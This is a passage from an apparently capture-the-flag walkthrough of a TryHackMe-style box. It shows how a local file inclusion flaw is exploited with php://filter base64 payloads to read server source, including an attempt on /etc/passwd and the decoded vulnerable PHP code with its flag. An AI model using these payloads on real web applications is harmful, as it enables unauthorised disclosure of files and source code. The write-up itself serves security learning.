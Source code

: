 Pressing the button I find the URL changes to `test.php?view=/var/www/html/development_testing/mrrobot.php`


![test1](https://spy0x7.cf/assets/archangel/test1.png)


## Exploit


### LFI PHP Wrappers

The URL shown can be vulnerable to several things, such as SQL injection, directory traversal, RFI and LFI. Testing one by one I find most of them end with a `Not Allowed` response.

![notallowed](https://spy0x7.cf/assets/archangel/notallowed.png)


Testing [PHP Wrappers](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601) for LFI, I find that it is possible to convert the page to base64

`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php`

![base64](https://spy0x7.cf/assets/archangel/base64.png)


Trying to read /etc/passwd still fails, so I try to read the test.php file instead to see what filtering is happening

`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`

![base64](https://spy0x7.cf/assets/archangel/base.png)


This gives a long base64 value. I save it to my machine then decrypt it


root@kali:~/ctfs/thm/archangle# cat base | base64 -d

<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

            //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            if(isset($_GET["view"])){
            if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
                include $_GET['view'];
            }else{
